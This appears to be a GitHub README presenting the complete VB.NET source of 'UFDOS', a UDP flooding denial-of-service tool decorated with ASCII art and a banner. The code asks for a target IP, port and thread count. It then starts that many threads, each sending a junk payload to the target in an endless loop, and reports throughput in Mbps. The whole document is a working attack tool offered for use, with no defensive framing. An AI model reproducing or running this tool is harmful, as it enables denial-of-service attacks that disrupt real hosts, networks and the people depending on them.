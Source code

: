 # UFDOS
UFDOS is a UDP flooding tool ('U'dp 'F'looding 'DOS')
This tool is writen with VB2010
<h1>Code:</h1>

<code>
Imports System.Threading, System.Net.Sockets
Imports System.Net
Imports System.Text

Public Module Module1
Public UPSIS As Integer
Sub Main()

        'UFDOS-1b_christmas2023_vbnet20231221_1
        '                                         ==                                            
        '                                        -**=                                           
        '                                   :--==****==--:                                      
        '                                    -**********=.                                      
        '                                     .+*******.                                        
        '                                     .+*******:                                        
        '                                    :=*+===++*+-                                       
        '                                  .--------======:                                     
        '                                 :---------========.                                   
        '                               .------------========:                                  
        '                              :-------------=+++======.                                
        '                            :--------------=****+======-                               
        '                           ----------------=****+========.                             
        '                         .------------------==++==========:                            
        '                         :-------------------=============-                            
        '                           ...--------================:::.                             
        '                             :-------=================-                                
        '                           .------------------==========.                              
        '                          :-------------------===========-                             
        '                        .-----==---------------====--======.                           
        '                       :----+****=--------------==----======-                          
        '                     .------+****=--------------==============.                        
        '                    :--------====----------------==============-                       
        '                  .----------------------::::----================:                     
        '                 :------------------------:::-----================-                    
        '                 ---------------------------------=================.                   
        '                 .:::-----------===============================---.                    
        '                    ------------================================.                      
        '                  .-------------=================================:                     
        '                 .-------------------=====----------==============:                    
        '                :-------------------=****+----------===============-                   
        '               ---------------------=****+-----------==--:--=========.                 
        '             .-------:::-------------=====-----------==:::::==========:                
        '            :-------:::::-----------------------------==----===========-               
        '           :------------------------------------------===================              
        '          ---------------------------------------------=================== 
        '          ---------------------------------------------=================== 
        '            .......................++++++++++++++:.......................  
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++******* 
        '                                   .=+++++*****+: 
        Console.SetWindowSize(105, 21)
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("|UUUUUUUU     UUUUUUUUFFFFFFFFFFFFFFFFFFFFFFDDDDDDDDDDDDD             OOOOOOOOO        SSSSSSSSSSSSSSS |")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD::::::::::::DDD        OO:::::::::OO    SS:::::::::::::::S|")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD:::::::::::::::DD    OO:::::::::::::OO S:::::SSSSSS::::::S|")
        Console.WriteLine("|UU:::::U     U:::::UUFF::::::FFFFFFFFF::::FDDD:::::DDDDD:::::D  O:::::::OOO:::::::OS:::::S     SSSSSSS|")
        Console.WriteLine("| U:::::U     U:::::U   F:::::F       FFFFFF  D:::::D    D:::::D O::::::O   O::::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O S::::SSSS         |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O  SS::::::SSSSS    |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O    SSS::::::::SS  |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O       SSSSSS::::S |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::O            S:::::S|")
        Console.WriteLine("| U::::::U   U::::::U   F:::::F               D:::::D    D:::::D O::::::O   O::::::O            S:::::S|")
        Console.WriteLine("| U:::::::UUU:::::::U FF:::::::FF           DDD:::::DDDDD:::::D  O:::::::OOO:::::::OSSSSSSS     S:::::S|")
        Console.WriteLine("|  UU:::::::::::::UU  F::::::::FF           D:::::::::::::::DD    OO:::::::::::::OO S::::::SSSSSS:::::S|")
        Console.WriteLine("|    UU:::::::::UU    F::::::::FF           D::::::::::::DDD        OO:::::::::OO   S:::::::::::::::SS |")
        Console.WriteLine("|      UUUUUUUUU      FFFFFFFFFFF           DDDDDDDDDDDDD             OOOOOOOOO      SSSSSSSSSSSSSSS   |")
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("UFDOS-1b_christmas2023_vbnet20231221_1")
        Console.WriteLine("")
        Console.Write("IP Address:")
        Static IPADDR
        IPADDR = Console.ReadLine()
        Console.Write("Port:")
        Static PORT
        PORT = Console.ReadLine()
        Console.Write("Threads:")
        Static THREADS As Integer
        THREADS = Console.ReadLine()

        Console.WriteLine("Spawning threads(" & THREADS & ")")
        Dim TCNT As Integer
        TCNT = 0
        Do Until TCNT = THREADS
            TCNT = TCNT + 1
            Dim NThread As New Thread(Sub() IKUN(IPADDR, PORT))
            NThread.Start()

        Loop
        Dim NETCNT As New Thread(AddressOf SMALLBLACKZI)
        NETCNT.Start()
        Console.WriteLine("Done! Press ENTER to exit.")
        Console.ReadLine()
        End
    End Sub
    Public Sub IKUN(ByVal IPADDR, ByVal PORT)
        Dim udpClient As New UdpClient
        Dim GLOIP As IPAddress
        Dim GLOINTPORT As Integer
        Dim bytCommand As Byte() = New Byte() {}
        GLOIP = IPAddress.Parse(IPADDR)
        GLOINTPORT = PORT
        udpClient.Connect(GLOIP, GLOINTPORT)
        bytCommand = Encoding.ASCII.GetBytes("QWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyiQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jto0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.j")
        Do
            UPSIS = UPSIS + bytCommand.Length
            udpClient.Send(bytCommand, bytCommand.Length)

        Loop

    End Sub
    Public Sub SMALLBLACKZI()
        Do
            UPSIS = 0
            Thread.Sleep(1000)
            Console.WriteLine(UPSIS * 8 / 1000 / 1000 & "Mbps")
        Loop
    End Sub
End Module
</code>
